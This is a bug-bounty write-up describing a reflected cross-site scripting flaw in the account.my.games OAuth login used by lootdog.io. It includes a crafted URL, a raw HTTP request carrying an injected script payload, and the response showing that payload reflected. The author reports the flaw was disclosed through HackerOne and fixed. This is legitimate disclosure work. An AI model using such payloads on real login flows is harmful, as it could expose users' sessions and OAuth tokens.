


Reflected Cross-site Scripting.
Target
The target of this analysis is https://lootdog.io/, a website hosted on HackerOne's platform with a large scope. During the reconnaissance phase, an unintended behavior was identified in the Oauth request, leading to further investigation.
Technical Analysis
The login request from https://lootdog.io/ was intercepted and analyzed using a repeater tool to observe the Oauth workflow. It was discovered that the website utilizes https://account.my.games as an Oauth service. Upon clicking the login button, users are redirected to https://account.my.games, where they can log in if they possess a valid account. To assess the security of the Oauth implementation, a search was conducted for potential vulnerabilities such as Reflected XSS or Open Redirect issues that could be exploited to obtain the Oauth token and compromise user accounts.
An additional parameter was added to the end of the request's keyed value as follows:
&Set-Cookie: <script>alert(“Hacked By Deathstroke”)</script>
The resulting URL was crafted as follows:
https://account.my.games//oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script>
Subsequently, the request containing the payload was sent and the response was observed.
Request
GET /oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script> HTTP/1.1
Host: account.my.games
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://lootdog.io/
Connection: close
Response
<script>alert("Hacked By Deathstroke")</script> HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3982
Vary: Origin
However, no access token was found to be reflected in the response at that time. Nonetheless, the issue was reported to the program, as it had the potential to pose other security threats.

The payload can be seen successfully reflected in the HTTP response.

This marked the discovery of my first vulnerability, which was promptly reported to HackerOne. After the HackerOne analyst verified and triaged the vulnerability through discussions, the issue was ultimately resolved, and I was rewarded with a Hall of Fame (HoF) distinction.
Thank you for reading.
For more updates and insights, follow me on Twitter: @thevillagehacker.